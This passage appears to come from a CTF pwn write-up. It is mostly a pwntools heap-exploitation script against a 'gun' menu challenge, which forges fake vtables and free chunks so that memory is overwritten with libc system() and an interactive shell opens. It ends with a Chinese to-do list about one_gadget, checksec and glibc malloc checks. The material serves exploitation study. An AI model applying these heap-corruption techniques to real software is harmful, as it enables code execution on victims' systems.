 ```python
# for i in range((56-8-8)/4):
#     free_chunk += [0x0] #padding the chunk(56 size)

# free_chunk += [0x0, 0x11]

# print "free chunk\n", free_chunk
# fake_free_ck = "".join([ p32(_) for _ in free_chunk ])

fake_gun_st = [
        heap_base + 0x4a38,                    #vtable 
        heap_base + 0x4a50, #name points a fake chunk
        15,                 #nmax_bullets
        15,                 #ncur_bullets
        ]
gun_st = "".join([ p32(_) for _ in fake_gun_st ])
rename_gun(2, 680, 'A' * 24 + gun_st + vtable + '\n')
rename_gun(2, 680, 'A' * 24 + gun_st + vtable + '\n')

if _debug != 0:
    gdb.attach(p.proc.pid, execute=_source)
use_gun(1, [2])
"""
#add the chunk in free chunk
p.sendlineafter("7. Exit", "5")
p.recvuntil("4. Main menu")
p.sendline("1") #1st item of vtable points to set_gun_name func
set_gun_name(19, 'a' + '\n')
p.sendline("4") #return to main menu

rename_gun(2, 40, '\n')

fb_free_ck = [
        0x0,
        56 | 0x1,
        elf.address + 0x3fa1, #addr in got,has valid size
        0x0,
        ]
fake_free_fb_ck = ''.join([ p32(_) for _ in fb_free_ck ])

buy_gun(1, 0x60, gun_st + vtable + cyclic(4) + fake_free_fb_ck + '\n')
# buy_gun(1, 47, '\n')
rename_gun(0, 47, '\n')
if _debug != 0:
    gdb.attach(p.proc.pid, execute=_source)
rename_gun(0, 47, '\x00\x00\x00' + p32(0) * 5 + p32(libc.symbols['system']) + '\n')
"""
p.interactive()

```



### 代办事项

1. 了解一下 one_gadget 的原理
2. 了解一下 checksec 里面所有的选项的意思
3. 关于 glibc 的 malloc 里面所有的 security check 写一个cheatsheet